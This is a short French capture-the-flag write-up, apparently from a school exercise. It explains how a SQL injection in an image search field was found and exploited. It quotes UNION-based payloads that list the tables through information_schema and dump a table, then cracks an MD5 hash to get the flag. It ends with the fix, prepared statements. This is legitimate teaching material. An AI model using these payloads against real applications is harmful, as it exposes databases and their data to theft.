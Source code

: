 # Explications
dans la home page on vois un boutton ou l on peut rechercher une image, apres avoir clique on est rediriger sur un textfield ou il y a une injection sql possible on le voit en testant "1 or 1=1".

pour voir toutes les tables "1 or 1=1 UNION select table_name, column_name FROM information_schema.columns" on voit que une table s appel "list_images" donc on focus dessus, du coup "1 or 1=1 UNION select url, comment from list_images" nous donne 
"
ID: 1 or 1=1 UNION select url, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : borntosec.ddns.net/images.png
"
md5 unhash = albatroz

# Malveillant
une injection sql expose la db a un dump etc..

# Regler
Passer par des requetes SQL dites prepared, les ORM. (cf: PDO::prepare)
